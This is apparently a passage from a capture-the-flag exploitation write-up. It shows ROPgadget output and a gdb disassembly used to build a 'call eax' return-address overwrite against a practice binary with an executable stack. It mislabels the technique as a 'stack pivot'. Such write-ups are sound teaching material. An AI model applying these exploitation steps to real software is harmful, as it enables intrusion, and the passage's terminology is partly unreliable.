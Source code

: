 ```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b7$ ROPgadget --binary b7 | grep eax
0x0804843d : adc al, 0x68 ; inc eax ; cdq ; add al, 8 ; call eax
0x08048476 : adc byte ptr [eax + 0x68], dl ; inc eax ; cdq ; add al, 8 ; call edx
0x08048441 : add al, 8 ; call eax
0x0804834c : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048575 : add byte ptr [eax], al ; mov ecx, dword ptr [ebp - 4] ; leave ; lea esp, dword ptr [ecx - 4] ; ret
0x080484a5 : add eax, 0x8049944 ; add ecx, ecx ; ret
0x08048443 : call eax
0x08048440 : cdq ; add al, 8 ; call eax
0x0804843c : in al, dx ; adc al, 0x68 ; inc eax ; cdq ; add al, 8 ; call eax
0x08048475 : in al, dx ; adc byte ptr [eax + 0x68], dl ; inc eax ; cdq ; add al, 8 ; call edx
0x080484cb : in eax, -0x7d ; in al, dx ; adc al, 0x50 ; call edx
0x0804843a : in eax, -0x7d ; in al, dx ; adc al, 0x68 ; inc eax ; cdq ; add al, 8 ; call eax
0x0804843f : inc eax ; cdq ; add al, 8 ; call eax
0x08048479 : inc eax ; cdq ; add al, 8 ; call edx
0x080484c7 : je 0x80484c4 ; push ebp ; mov ebp, esp ; sub esp, 0x14 ; push eax ; call edx
0x0804834f : les ecx, ptr [eax] ; pop ebx ; ret
0x08048446 : les edx, ptr [eax] ; leave ; ret
0x08048547 : les edx, ptr [eax] ; nop ; leave ; ret
0x080484ca : mov ebp, esp ; sub esp, 0x14 ; push eax ; call edx
0x0804843e : push 0x8049940 ; call eax
0x080484cf : push eax ; call edx
0x08048477 : push eax ; push 0x8049940 ; call edx
0x080484c9 : push ebp ; mov ebp, esp ; sub esp, 0x14 ; push eax ; call edx
0x08048474 : sub esp, 0x10 ; push eax ; push 0x8049940 ; call edx
0x0804843b : sub esp, 0x14 ; push 0x8049940 ; call eax
0x080484cc : sub esp, 0x14 ; push eax ; call edx
```

Here is something interesting...

```
0x08048443 : call eax
```

So that will call eax. EAX stores an address to our input. So if we hit the eip register with "0x08048443", the stack will pivot to that location and call our input (known as a stack pivot exploit). And since the stack is executable, nothing will stop it. Let's find the offset.

```
gdb-peda$ disas pls_stop 
Dump of assembler code for function pls_stop:
   0x080484db <+0>:	push   ebp
   0x080484dc <+1>:	mov    ebp,esp
   0x080484de <+3>:	sub    esp,0x48
   0x080484e1 <+6>:	mov    eax,ds:0x8049940
   0x080484e6 <+11>:	sub    esp,0x4
   0x080484e9 <+14>:	push   eax
   0x080484ea <+15>:	push   0x64
   0x080484ec <+17>:	lea    eax,[ebp-0x3e]
   0x080484ef <+20>:	push   eax
   0x080484f0 <+21>:	call   0x8048390 <fgets@plt>
   0x080484f5 <+26>:	add    esp,0x10
   0x080484f8 <+29>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484fb <+32>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484fe <+35>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048501 <+38>:	and    eax,0xf0000000
   0x08048506 <+43>:	cmp    eax,0xf0000000
   0x0804850b <+48>:	jne    0x8048527 <pls_stop+76>
   0x0804850d <+50>:	sub    esp,0xc
   0x08048510 <+53>:	push   0x8048600
   0x08048515 <+58>:	call   0x80483a0 <puts@plt>
   0x0804851a <+63>:	add    esp,0x10
   0x0804851d <+66>:	sub    esp,0xc
```